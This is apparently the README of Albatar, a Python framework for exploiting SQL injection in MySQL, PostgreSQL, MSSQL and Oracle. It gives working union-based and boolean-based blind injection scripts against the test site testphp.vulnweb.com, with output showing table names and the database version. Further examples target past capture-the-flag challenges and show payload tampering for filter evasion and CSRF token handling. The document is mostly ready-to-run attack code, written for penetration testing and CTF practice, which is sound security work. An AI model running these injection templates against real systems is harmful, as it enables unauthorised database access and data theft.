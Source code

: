 I wrote Albatar to have a neat and tidy tool to exploit SQL injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL injection vulnerabilities, it is primarily designed to help exploit not-so-straightforward injections where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (like --dbs, --banner etc.) to retrieve data from the database.

Currently, Albatar supports MySQL, PostgreSQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple union-based SQLI (MySQL)

Let's use Albatar to exploit a textbook union-based SQLI at http://testphp.vulnweb.com/artists.php?artist=1. Clone the repository, and create the below script:
```python
from albatar import *
import re

PROXIES = {} #'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
HEADERS = ['User-Agent: Mozilla/5.0']

def extract_results(headers, body, time):
  return re.findall(':ABC:(.+?):ABC:', body, re.S)

def mysql_union():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/artists.php?artist=${injection}',
      method = 'GET',
      response_processor = extract_results,
      )

  template = '-1 union all select null,null,concat(0x3a4142433a,X,0x3a4142433a) from ${query}-- '

  return Method_union(make_requester, template)

sqli = MySQL_Inband(mysql_union())

for r in sqli.exploit():
  print(r)
```

Then execute the script to exploit the SQLI:
```
$ python3 testphp-union.py -D acuart --tables
15:41:49 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:41 AEST
15:41:49 albatar - Executing: ('(SELECT COUNT(*) X FROM information_schema.tables WHERE table_schema="acuart")a', '(SELECT table_name X FROM information_schema.tables WHERE table_schema="acuart" LIMIT ${row_pos},${row_count})a')
15:41:50 albatar - count: 8
artists
carts
categ
featured
guestbook
pictures
products
users
15:41:56 albatar - Time: 0h 0m 6s
```

* Simple boolean-based SQLI (MySQL)

Here's how to exploit a boolean-based SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1.
```python
from albatar import *

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Lorem ipsum dolor sit amet' in body

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      )

  template = '1 and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template, confirm_char=True)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print(r)
```

And execute:
```
$ python3 testphp-boolean.py -b
15:43:18 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:43 AEST
15:43:18 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
15:43:45 albatar - Time: 0h 0m 27s
```

* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) from Hackim CTF 2016 was a good example to showcase this, where every request had to have a valid Luhn checksum.
```python
from albatar import *
from baluhn import generate

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Your CC has been compromised' in body

def add_luhn(s):
  digits = filter(lambda c: c.isdigit(), s)

  # our payload must have an even number of digits otherwise the serve computes
  # a different checksum than us
  if len(digits) % 2 == 0:
    s += '0'
    digits += '0'

  return s + generate(''.join(digits))

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://52.91.163.151/',
      body = 'cc=4111111111111111${injection}',
      method = 'POST',
      response_processor = test_state_grep,
      tamper_payload = add_luhn,
      )

  template = "' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask} -- "

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

* CSRF tokens

If you need to do anything before or after submitting the SQLI payload, simply extend the Requester class. For example, if you need to provide a CSRF token, like with the web task [hackme-400](https://github.com/ctfs/write-ups-2016/tree/master/su-ctf-2016/web/hackme-400) from SU CTF 2016, write something like this:
```python
...
class Requester_CSRF(Requester_HTTP_requests):

  def test(self, payload):
    response = self.session.get('http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php')
    token = re.search("name='user_token' value='([^']+)'", response.text).group(1)
    self.http_opts[2] = self.http_opts[2].replace('_CSRF_', token)

    return super(Requester_CSRF, self).test(payload)

def mysql_union():

  def make_requester():
    return Requester_CSRF(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php',
      body = 'username=${injection}&password=asdf&Login=Login&user_token=_CSRF_',
      method = 'POST',
      response_processor = extract_results,
      )

  template = "a' union select concat(0x3a4142433a,X,0x3a4142433a),null,null,null from ${query} #"

  return Method_union(make_requester, template, pager=10)
```

You could even write a brand new Requester class to exploit a SQLI that is not in a web application, but in a command line application for example.

* More

Find more examples in [demo.py](demo.py).
